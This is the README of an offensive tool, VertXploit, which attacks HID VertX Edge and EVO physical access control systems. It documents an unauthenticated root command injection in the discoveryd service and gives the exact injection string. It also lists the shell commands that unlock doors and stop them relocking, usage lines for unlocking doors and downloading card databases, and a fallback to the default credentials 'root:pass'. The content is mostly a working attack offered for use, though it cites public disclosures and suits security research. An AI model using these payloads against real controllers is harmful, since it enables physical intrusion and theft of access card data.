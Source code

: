 # VertXploit
Exploiting HID VertX physical access control systems

## Summary ##
VertXploit is a tool that can be used to exploit HID VertX Edge and EVO access control systems. 

A vulnerability exists within the discoveryd service, which fails to sanitize user data before executing system calls. This allows for arbitrary code execution on HID VertX Edge and EVO access control systems without needing to be authenticated. See the [Command Injection](https://github.com/coldfusion39/VertXploit/blob/master/README.md#command-injection) section for more information.

VertXploit can unlock or lock doors connected to the access control system, download the databases containing all of the provisioned/cached access control cards, and execute arbitrary commands as root on the VertX system, if vulnerable.

If the VertX controller's firmware has been recently updated, vertXploit will attempt to unlock or lock the doors through the web console by using the default, or user supplied, username and password.


## Requirements ##
Run `pip install -r requirements.txt` to install the required python modules.
 * [netifaces](https://bitbucket.org/al45tair/netifaces)
 * [python-nmap](https://bitbucket.org/xael/python-nmap)
 * [requests](https://github.com/kennethreitz/requests)
 * [tabulate](https://bitbucket.org/astanin/python-tabulate)


## VertXploit Usage ##
If the `-i IP` argument is not provided, vertXploit will attempt to discover all VertX access control system on the local network. If a controller is found, vertXploit will continue to execute the user supplied action that was provided with the `-a [discover, unlock, lock, download]` or `-raw` arguments.


### Discover ###
Run vertXploit with just the `-a discover` argument to discover all VertX access control systems on the local network. To check a specific system and return detailed information, run vertXploit with the `-a discover` argument and an IP address `-i IP`.

Example:

`./vertXploit.py`

`./vertXploit.py -i 10.1.10.5`


### Unlock/Lock ###
In order to unlock or lock doors connected to a VertX access control system, run vertXploit with the `-a unlock` or `-a lock` arguments. If the controller is not vulnerable to the command injection exploit, vertXploit will attempt to unlock or lock the doors through the web console. This method uses the default username and password of 'root:pass', or you can supply your own with the `--username USERNAME` and `--password PASSWORD` arguments.

Example:

`./vertXploit.py -a unlock -i 10.1.10.5`


### Download ###
To download the VertX card databases, run vertXploit with the `-a download` argument. The controller must be vulnerable to the command injection exploit.

Example:

`./vertXploit.py -a download -i 10.1.10.5`


### Raw ###
Arbitrary Linux commands can be executed on a VertX access control system by using the `-raw COMMAND` argument. Depending on the command being sent, the controller may not be able to execute the command because it is not installed (i.e. Python, PERL, ruby, etc). As a simple proof of concept, the Linux 'ping' command seems to work on all VertX models tested.

Example:

`./vertXploit.py -raw 'ping -c 5 10.1.10.39' -i 10.1.10.5`


## VertXparse Usage ##
After downloading the VertX 'IdentDB' and 'AccessDB', but using the the `-a download` argument, run vertXparse to dump the contents of the databases.

Example:

`./vertXparse.py`



## Command Injection ##
Typically multiple VertX controllers are installed and housed together. The diagnostic command `command_blink_on` can be sent to a specific controller, which causes the panel's physical "Comm" LED to blink on and off for visual identification. This command usually terminates with the number of times the LED should blink, in the following case, 30 times.

`command_blink_on;042;<MAC_ADDRESS>;30;`

By replacing the number of blinks with a Linux command wrapped in back ticks, the command will be executed on the VertX controller, as root.

``command_blink_on;042;<MAC_ADDRESS>;`ping -c 5 10.1.10.39`;``

To remotely unlock and lock doors connected to the VertX access control system, commands are echoed to `/tmp/a`. This is done because there is a length limit of 22 characters, for each command, that can be sent to the controller. <i>Note: echo is used instead of printf because some older VertX controllers are running BusyBox < 1.0.1 which does not include printf.</i>

Newlines from echoing the commands into the file are then removed by running `tr -d '\n' < /tmp/a > /tmp/b` and intentional newlines are inserted by running `tr '!' '\n' < /tmp/b > /tmp/a`.

The script `/tmp/a` is then executed and both files are deleted. Below shows what commands are being echoed into `/tmp/a` when the unlock and lock commands are sent to the VertX controller.

### Unlock ###
	# Set QUERY_STRING to the door unlock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=1"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Remove executable permissions to prevent the door from locking
	chmod -x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

### Lock ###
	# Enable executable permissions
	chmod +x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Set QUERY_STRING to the door lock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=0"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi



## Resources ##
* [HeadlessZeke](https://github.com/headlesszeke/defcon24-demos) - Command injection vulnerability
* [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-16-223/) - Public disclosure
* [TrendMicro Blog](http://blog.trendmicro.com/let-get-door-remote-root-vulnerability-hid-door-controllers/) - Blog on command injection vulnerability
* [Brad Antoniewicz](http://nosedookie.blogspot.com/2011/07/hid-vertx-v2000-card-number-cache-tool.html) - Parsing card numbers from VertX cache
* [Other Work](http://nosedookie.blogspot.com/2011/07/identifying-and-querying-hid-vertx.html) - VertX discovery commands
